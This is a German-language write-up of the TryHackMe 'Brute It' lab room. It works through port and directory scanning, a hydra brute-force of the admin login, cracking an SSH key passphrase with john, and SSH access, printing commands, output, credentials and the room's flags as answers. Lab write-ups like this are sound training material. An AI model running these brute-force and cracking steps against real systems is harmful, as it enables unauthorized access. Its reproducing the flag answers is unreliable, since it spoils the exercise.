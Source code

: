 # Brute It

![Image](/img/Brute-It-Screenshot-01.png)

In diesem Writeup geht es um den Raum Brute It auf [TryHackMe](https://tryhackme.com/room/lle) von [ReddyyZ](https://tryhackme.com/p/ReddyyZ).
Ziel des Raums ist es, etwas über brute-forcing, hash cracking und privilege escalation zu lernen.

## Verwendete Techniken
````
- nmap
- gobuster
- hydra
- 
````

## Task 2 - Reconnaissance

Um die Fragen zu beantworten nutze ich folgende Befehle:

````
❯ nmap -A -p- 10.10.201.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 11:42 CET
Nmap scan report for 10.10.201.149
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.70 seconds
````
Hier gibt es direkt auf die ersten vier Fragen eine Antwort.
Für die fünfte Frage, ist ein directory-scan mit dirb, dirbuster oder gobuster nötig.
Ich habe gobuster gewählt und lasse über folgenden Befehl scannen:

````
❯ gobuster dir -u 10.10.201.149 -w /usr/share/wordlists/dirb/common.txt -t 100
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.201.149
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/23 11:57:38 Starting gobuster
===============================================================
/admin (Status: 301)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/11/23 11:57:45 Finished
===============================================================
````

Question 1: Search for open ports using nmap. How many ports are open?

Answer: 2

Question 2: What version of SSH is running?

Answer: OpenSSH 7.6p1

Question 3: What version of Apache is running?

Answer: 2.4.29

Question 4: Which Linux distribution is running?

Answer: Ubuntu

Question 5: Search for hidden directories on web server. What is the hidden directory?

Answer: /admin

## Task 3 - Getting a shell

Um eine SSH-Verbindung zu bekommen, macht es (gerade in einem Raum, der Brute It heißt) Sinn, einen Brute-Force-Angriff laufen zu lassen.
Da das versteckte Verzeichnis auf dem Webserver /admin heißt, nutze ich hier admin als Username.
Der Hinweis im Source-Code bestätigt meine Vermutung:
![Image](/img/Brute-It-Screenshot-03.png)

Die richtige Syntax für den hydra Befehl ziehe ich mir aus der Netzwerkanalyse meines Browsers:

![Image](/img/Brute-It-Screenshot-02.png)

````
❯ hydra -l admin -P ~/rockyou.txt 10.10.201.149 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-23 12:53:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.201.149:80/admin/:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.201.149   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-23 12:53:48
````

Wenn ich an CTFs arbeite, bei welchen ich einen Usernamen habe, lasse ich eigentlich immer, quasi nebenher, ein Terminal mit hydra gegen SSH und/oder FTP laufen, um nach einer funktionierenden Kombination aus Unsername und Passwort zu suchen.
Als wordlist nutze ich hier meistens rockyou.txt, da diese seit einer gefühlten Ewigkeit mit Kali-Linux mitgeliefert wird und bei CTFs eigentlich der Standard gilt: Wenn du es mit rockyou nicht innerhalb von 5 Minuten cracken kannst, ist es nicht dafür gedacht gebruteforced zu werden.

Frage 1 und 4 sind somit beantwortet. Im Adminpanel kann man einen RSA-Key herunterladen, welchen man dann mit ssh2john und john cracken kann.

````~/tools/john/run/ssh2john.py RSA_key > hash.txt````

````john --wordlist=../../rockyou.txt hash.txt````

Somit haben wir auch das Passwort für den User john. id_rsa muss noch private Berechtigungen erhalten, damit sie verwendet werden kann: ````chmod 600 id_rsa```` und los geht's über SSH.

````ssh john@10.10.201.149 -i id_rsa````

Und schon liegt die Antwort auf die letzte Frage dieses Tasks direkt vor meinen Füßen:

````
❯ ssh john@10.10.201.149 -i id_rsa
The authenticity of host '10.10.201.149 (10.10.201.149)' can't be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.201.149' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov 23 12:34:58 UTC 2020

  System load:  0.0                Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 21%                IP address for eth0: 10.10.201.149
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ ll
total 40
drwxr-xr-x 5 john john 4096 Sep 30 14:11 ./
drwxr-xr-x 4 root root 4096 Aug 28 14:47 ../
-rw------- 1 john john  394 Sep 30 14:11 .bash_history
-rw-r--r-- 1 john john  220 Aug 16 18:14 .bash_logout
-rw-r--r-- 1 john john 3771 Aug 16 18:14 .bashrc
drwx------ 2 john john 4096 Aug 16 20:25 .cache/
drwx------ 3 john john 4096 Aug 16 20:25 .gnupg/
-rw-r--r-- 1 john john  807 Aug 16 18:14 .profile
drwx------ 2 john john 4096 Aug 16 20:25 .ssh/
-rw-r--r-- 1 john john    0 Aug 16 19:04 .sudo_as_admin_successful
-rw-r--r-- 1 root root   33 Aug 16 18:56 user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
````

Question 1: What is the user:password of the admin panel?

Answer: admin:xavier

Question 2: Crack the RSA key you found. What is John's RSA Private Key passphrase?

Answer: rockinroll

Question 3: user.txt

Answer: THM{a_password_is_not_a_barrier}

Question 4: Web flag

Answer: THM{brut3_f0rce_is_e4sy}

## Task 4 - Privilege Escalation


